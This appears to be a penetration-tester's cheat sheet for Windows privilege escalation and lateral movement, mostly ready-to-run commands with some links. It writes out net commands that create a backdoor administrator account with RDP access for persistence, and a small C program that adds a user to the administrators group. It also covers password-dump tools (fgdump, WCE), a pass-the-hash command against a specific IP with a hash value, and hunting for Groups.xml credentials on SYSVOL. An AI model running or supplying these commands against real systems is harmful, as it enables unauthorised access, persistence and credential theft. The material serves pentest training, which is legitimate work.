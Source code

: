 
## Privilege escalation - Generic
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite 
-> linpeas
-> winpeas

## SMB RELAY - Windows

https://intrinium.com/smb-relay-attack-tutorial/

https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html


## Privilege escalation - Windows


Adding persistence:
```
net user hacker Hacker123! /add

net localgroup administrators hacker /add

net localgroup "Remote Desktop Users" hacker /add
```
## Verify missing patch
https://github.com/rasta-mouse/Sherlock.git

### Exploits
* MS11-080 - Windows XP, Windows 2003 Adf.sys 
	* http://www.exploit-db.com/exploits/18176/ MS11-080
		* ``` python pyinstaller.py --onefile ms11-080.py ```
### Misconfiguration
* icalcs
	* detects insecure permissions
		* ```icalcs binary-name.exe```
```C 
// file useradd.c
#include <stdlib.h>
 /* system, NULL, EXIT_FAILURE */
int main ()
{
	int i;
	i = system ("net localgroup administrators low /add");
	return 0;
}
```
		* ```i686-w64-mingw32-gcc -o filename.exe useradd.c ```
* fgdump.exe / pwdump.exe
	* A utility for dumping passwords on Windows NT/2000/XP/2003 machines 
	* https://github.com/interference-security/kali-windows-binaries/tree/master/fgdump
* Windows Credential Editor (WCE)
	* obtain cleartext passwords and hashes from a compromised Windows host
	* ``` wce_protected.exe –w ```
* pass the hash
```bash  
export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896
pth-winexe -U administrator% //10.11.01.76 cmd
```
* Windows Group Policy Preferences
```cmd
net use z: \\dc01\SYSVOL
dir /s Groups.xml
```